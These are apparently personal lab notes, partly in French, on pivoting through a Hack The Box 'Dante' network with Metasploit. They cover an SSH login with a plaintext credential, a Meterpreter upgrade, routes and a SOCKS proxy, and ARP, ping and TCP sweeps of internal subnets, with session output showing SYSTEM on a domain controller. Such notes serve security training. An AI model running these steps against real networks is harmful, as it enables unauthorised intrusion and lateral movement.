 # pivot with metasploit:

#metasploit: pivot via ssh compromi

```
use auxiliary/scanner/ssh/ssh_login
set rhosts 10.10.110.100
set username balthazar
set password TheJoker12345!
run
sessions -i
sessions -u 1

#attendre de reverse shell meterpreter

route add 172.16.1.0/24 2
use auxiliary/server/socks_proxy
set VERSION 4a
set SRVPORT 9050
run -j
```

## découvrir les voisins pour pivoter:

```
Active sessions
==========

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell linux              SSH balthazar:TheJoker12345! (10.10.110.100:22)                                   10.10.14.8:38435 -> 10.10.110.100:22 (10.10.110.100)
  6         meterpreter x86/linux    balthazar @ DANTE-WEB-NIX01 (uid=1002, gid=1002, euid=1002, egid=1002) @ 172....  10.10.14.8:4433 -> 10.10.110.100:58534 (1.2.3.4)
  7         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ DANTE-DC01                                                  10.10.14.8:4444 -> 10.10.110.3:2439 (172.16.1.20)

```

## arp:
meterpreter > run post/windows/gather/arp_scanner RHOSTS=172.16.2.0/24


## ping
msf6 post(multi/gather/ping_sweep) > set session 7
session => 7
msf6 post(multi/gather/ping_sweep) > set rhosts 172.16.2.0/24
rhosts => 172.16.2.0/24
msf6 post(multi/gather/ping_sweep) > rerun

## tcp 
sessions -l
route add 172.16.2.0/24 3
use auxiliary/scanner/portscan/tcp
set rhosts 172.16.2.0/24
set ports 22,80,445,443

